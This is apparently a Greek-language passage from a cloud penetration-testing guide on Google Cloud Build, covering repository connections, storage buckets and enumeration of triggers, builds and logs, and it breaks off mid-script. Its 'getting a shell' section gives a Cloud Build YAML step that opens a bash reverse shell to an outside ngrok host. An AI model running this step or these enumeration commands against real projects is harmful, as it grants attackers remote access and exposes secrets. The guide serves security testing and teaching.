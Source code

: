 ### Σύνδεση Αποθετηρίου

Αυτό δεν είναι το ίδιο με μια **`σύνδεση`**. Αυτό επιτρέπει **διαφορετικούς** τρόπους για να αποκτήσετε **πρόσβαση σε ένα αποθετήριο Github ή Bitbucket** αλλά **δεν δημιουργεί ένα αντικείμενο σύνδεσης, αλλά δημιουργεί ένα αντικείμενο αποθετηρίου (1ης γενιάς).**

Αυτή η επιλογή είναι διαθέσιμη μέσω του κουμπιού:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Αποθήκευση

Μερικές φορές το Cloud Build θα **δημιουργήσει μια νέα αποθήκευση για να αποθηκεύσει τα αρχεία για το trigger**. Αυτό συμβαίνει για παράδειγμα στο παράδειγμα που προσφέρει το GCP με:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Ένας Storage bucket με όνομα [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) δημιουργείται για να αποθηκεύσει ένα `.tgz` με τα αρχεία που θα χρησιμοποιηθούν.

### Απόκτηση shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Εγκατάσταση του gcloud μέσα στο cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

Θα μπορούσατε να βρείτε **ευαίσθητες πληροφορίες στις ρυθμίσεις και τα αρχεία καταγραφής των builds**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
```